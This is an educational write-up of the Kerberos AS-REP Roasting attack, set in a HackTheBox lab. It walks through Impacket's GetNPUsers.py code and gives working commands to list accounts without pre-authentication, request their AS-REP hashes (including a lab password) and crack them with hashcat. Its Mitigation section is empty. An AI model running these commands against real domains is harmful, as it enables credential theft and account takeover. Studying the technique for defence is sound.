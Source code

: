 # AS-REP Roasting Attack

## Pre-authentication

### History

The original Kerberos 4 protocol was susceptible to an _offline dictionary and brute-force attacks_ since the KDC happily provides a ticket encrypted with the principals’ secret key to any requestor.

### Kerberos V5

[Kerberos 5](../../auth/kerberos.md#as-exchange) introduces _pre-authentication_ which requires that requestors prove their identity by demonstrating the knowledge of the user's credentials before the KDC will issue a ticket for a particular principal.

### Implementation

There are [several types of pre-authentication](https://datatracker.ietf.org/doc/html/rfc4120#section-7.5.2) defined by the Kerberos.

However, only the encrypted timestamp (PA-ENC-TIMESTAMP) pre-authentication method is commonly implemented.

{% embed url="https://learning.oreilly.com/library/view/kerberos-the-definitive/0596004036/" %}

### AS-REQ Review

Pre-authentication is controlled by KDC policy.

1. If a client attempts to request initial tickets through the AS exchange, but the pre-authentication is enabled,
2. then the KDC will send a `KRB_ERROR` message which tells the client that pre-authentication is required instead of an AS\_REP.
3. The client append the required pre-authentication data to its AS\_REQ message this time.
4. If the pre-authentication data is accepted, the KDC responds with an AS reply including the TGT ticket. Otherwise, the KDC will response another KRB\_ERROR message that indicates pre-authentication failed.

Refer to the [Kerberos authentication service](../../auth/kerberos.md#authentication-service).

## ASREPRoasting Attack

The encrypted part in the `KRB_AS_REP` message is encrypted using the user password hash.

[The predictable content](https://github.com/fortra/impacket/blob/8b3f9eff06b3a14c09e8e64cfc762cf2adeed013/impacket/krb5/asn1.py#L278) in the encrypted data allows the offline attack to be conducted:

{% code title="[RFC 4120] 5.4.2.  KRB_KDC_REP Definition" %}
```
   EncKDCRepPart   ::= SEQUENCE {
           key             [0] EncryptionKey,
           last-req        [1] LastReq,
           nonce           [2] UInt32,
           key-expiration  [3] KerberosTime OPTIONAL,
           flags           [4] TicketFlags,
           authtime        [5] KerberosTime,
           starttime       [6] KerberosTime OPTIONAL,
           endtime         [7] KerberosTime,
           renew-till      [8] KerberosTime OPTIONAL,
           srealm          [9] Realm,
           sname           [10] PrincipalName,
           caddr           [11] HostAddresses OPTIONAL
   }
```
{% endcode %}

## Tools

{% tabs %}
{% tab title="Impacket" %}
We use the script [`GetNPUsers.py`](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) to conduct the attack, for example in the HackTheBox lab machine [`Forest`](../../../hackthebox/windows/forest.md), we use this script to get the TGT ticket for the user `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
```

After parsing the arguments, the script initializes the class `GetUserNoPreAuth` with domain account credentials:

```python
    try:
        executer = GetUserNoPreAuth(username, password, domain, options)
        executer.run()
```

If a file of user names is provided, the class call its method `reques_users_file_TGTs` to get the TGT ticket for each account name if the pre-authentication is disabled.

```python
    def run(self):
        if self.__usersFile:
            self.request_users_file_TGTs()
            return
```

### LDAP Search

If `doKerberos` is set _or_ `no_pass` is false, the script will do the LDAP search to find domain accounts with property `Do not require Kerberos preauthentication` set`UF_DONT_REQUIRE_PREAUTH`:

```python
        # Connect to LDAP
        try:
            ldapConnection = ldap.LDAPConnection('ldap://%s' % self.__target, self.baseDN, self.__kdcIP)
...
        # Building the search filter
        searchFilter = "(&(UserAccountControl:1.2.840.113556.1.4.803:=%d)" \
                       "(!(UserAccountControl:1.2.840.113556.1.4.803:=%d))(!(objectCategory=computer)))" % \
                       (UF_DONT_REQUIRE_PREAUTH, UF_ACCOUNTDISABLE)

        try:
            logging.debug('Search Filter=%s' % searchFilter)
            resp = ldapConnection.search(searchFilter=searchFilter,
                                         attributes=['sAMAccountName',
                                                     'pwdLastSet', 'MemberOf', 'userAccountControl', 'lastLogon'],
                                         sizeLimit=999)
```

Also, we can use this filter with the command `ldapsearch` to get the same results:

{% code overflow="wrap" %}
```bash
$ ldapsearch -H ldap://forest -x -b 'dc=htb,dc=local' -D svc-alfresco@htb.local -w s3rvice '(&(UserAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!(objectCategory=computer)))'
```
{% endcode %}

{% embed url="https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties" %}

### AS-REQ Request

Either way, the class will call its method `getTGT` to try to get the TGT ticket for an account.

First, the method prepare the AS\_REQ message:

```python
    def getTGT(self, userName, requestPAC=True):
...
        asReq = AS_REQ()
...
        # from pyasn1.codec.der import decoder, encoder
        message = encoder.encode(asReq)
```

Then it sends the `AS_REQ`, receives, and parses the \`AS\_REP\` response:

```python
        try:
            r = sendReceive(message, domain, self.__kdcIP)
...
        # This should be the PREAUTH_FAILED packet or the actual TGT if the target principal has the
        # 'Do not require Kerberos preauthentication' set
        try:
            asRep = decoder.decode(r, asn1Spec=KRB_ERROR())[0]
```

### Encrypted Part

Finally, the script outputs [the encrypted part](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.2) in the `KRB_AS_REP` message:

```python
        if self.__outputFormat == 'john':
            # Let's output the TGT enc-part/cipher in John format, in case somebody wants to use it.
            return '$krb5asrep$%s@%s:%s$%s' % (clientName, domain,
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                               hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
        else:
            # Let's output the TGT enc-part/cipher in Hashcat format, in case somebody wants to use it.
            return '$krb5asrep$%d$%s@%s:%s$%s' % ( asRep['enc-part']['etype'], clientName, domain,
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[:16]).decode(),
                                                   hexlify(asRep['enc-part']['cipher'].asOctets()[16:]).decode())
```

### Password Crack

We can crack the hash to get the domain user password with `hashcat`.

```bash
$ hashcat -f -m 18200 <hash> <wordlist>
```
{% endtab %}

{% tab title="Mimikatz" %}

{% endtab %}
{% endtabs %}

## Mitigation
